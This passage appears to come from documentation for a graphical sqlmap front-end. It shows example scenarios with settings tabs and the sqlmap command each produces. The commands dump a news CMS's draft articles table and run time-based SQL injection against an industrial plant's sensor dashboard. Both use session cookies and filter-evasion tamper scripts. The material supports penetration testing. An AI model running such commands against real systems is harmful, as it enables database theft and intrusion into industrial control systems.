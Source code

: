 ```
├── Database: cms_db
├── Table: articles
├── Columns: id,title,content,author,publish_date,status
├── Dump Table: ✓
└── Where: status = 'draft'
```

**Generated Command:**
```bash
sqlmap -u "https://news.com/admin/articles.php?search=breaking&category=politics" --cookie="cms_admin_session=authenticated" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" --level=4 --risk=2 --technique=B --time-sec=1 --retries=3 -p search,category --dbms=mysql --tamper=space2comment,randomcase --invalid-logical -D cms_db -T articles --columns --dump --where="status = 'draft'" --batch
```

## 🏭 Manufacturing and IoT Testing

### Scenario 9: Industrial Control System
**Target:** Manufacturing plant monitoring dashboard
**Vulnerability:** Time-based injection in sensor data queries

**Configuration:**
```
Target Tab:
├── URL: http://ics.plant.local/sensors.php?sensor_id=001&time_range=24h
├── Method: GET
├── Cookie: operator_session=valid
└── Delay: 10 (industrial systems often slow)

Detection Tab:
├── Level: 5
├── Risk: 3
├── Techniques: T (Time-based)
├── Time Delay: 10
└── Retries: 5

Injection Tab:
├── Testable Parameters: sensor_id,time_range
├── DBMS: SQLite
├── Tamper Scripts: space2comment
└── No Escape: ✓

Request Tab:
├── Timeout: 300
├── Keep Alive: ✓
└── Delay: 5
```

**Generated Command:**
```bash
sqlmap -u "http://ics.plant.local/sensors.php?sensor_id=001&time_range=24h" --cookie="operator_session=valid" --delay=10 --level=5 --risk=3 --technique=T --time-sec=10 --retries=5 -p sensor_id,time_range --dbms=sqlite --tamper=space2comment --no-escape --timeout=300 --keep-alive --delay=5 --batch
```
